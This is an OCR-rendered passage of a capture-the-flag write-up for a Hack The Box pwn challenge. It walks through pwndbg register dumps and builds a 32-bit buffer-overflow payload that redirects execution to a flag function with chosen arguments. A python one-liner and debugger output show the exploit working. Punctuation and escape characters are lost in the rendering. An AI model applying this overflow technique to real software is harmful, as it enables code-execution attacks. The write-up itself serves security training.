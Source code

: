 Breakpoint 1  0x08049246 in flag           LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA                                      
                                      REGISTERS                                       EAX  0x0                                  EBX  0x804c000   GLOBAL OFFSET TABLE       0x804bf10   DYNAMIC      add    dword ptr  eax   eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0xffffd01c      AAAABBBB              ESP  0xffffcfc4     0x41414141   AAAA      EIP  0x8049246  flag 100      cmp    dword ptr  ebp   8   0xdeadbeef
   endhighlight   

Now  looking at the EBP register  observe the value at  ebp 0x4 

   highlight bash   
pwndbg  x 4x  ebp  
0xffffd01c      0x41414141      0x42424242      0xffffd000      0xffffd0fc
   endhighlight   

Thus   ebp 0x8 and  ebp 0xc can now successfully be controlled by appending 0xdeadbeef and 0xc0ded00d in little endian byte format  xefxbexadxde and x0dxd0xdexc0 respectively  

Exploit
       

Therefore  the final exploit will take the following form 

JUNK BYTE 188   ADDRESS OF FLAG   JUNK2 BYTE 4   DEADBEEF   C0DED00D

Where 

JUNK BYTE   A

JUNK2 BYTE   B

ADDRESS OF FLAG   xe2x91x04x08

DEADBEEF   xefxbexadxde

C0DED00D   x0dxd0xdexc0

Piping the contents of eip flag into the binary and checking the EBP register  it can be seen that ebp 0x8 and ebp 0xc were successfully controlled 

   highlight bash   
       0xd4y Writeup     business hackthebox challenges pwn easy you know   
      python  c  print  A  188    xe2x91x04x08   BBBB   xefxbexadxde   x0dxd0xdexc0     eip flag  
  
pwndbg  r   eip flag                                                                                                                                                   4 579   
Starting program   home 0xd4y business hackthebox challenges pwn easy you know vuln   eip flag                                                                                
You know who are 0xDiablos                                                                                                                                                     
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
AAAAAAAAAAAAAABBBB                                                                                                                                                             
  
Breakpoint 1  0x08049246 in flag           LEGEND  STACK   HEAP   CODE   DATA   RWX   RODATA                                      
                                      REGISTERS                                       EAX  0x0                                  EBX  0x804c000   GLOBAL OFFSET TABLE       0x804bf10   DYNAMIC      add    dword ptr  eax   eax  
ECX  0x0                                  EDX  0xfbad2498                          EDI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   ESI  0xf7fa6000   GLOBAL OFFSET TABLE       insb   byte ptr es  edi   dx    0x1e4d6c   EBP  0xffffd01c     0x41414141   AAAA      ESP  0xffffcfc4     0x41414141   AAAA      EIP  0x8049246  flag 100      cmp    dword ptr  ebp   8   0xdeadbeef                    
                                     DISASM                                             
  0x8049246  flag 100     cmp    dword ptr  ebp   8   0xdeadbeef                      
  0x804924d  flag 107     jne    flag 135  flag 135                                   
                                           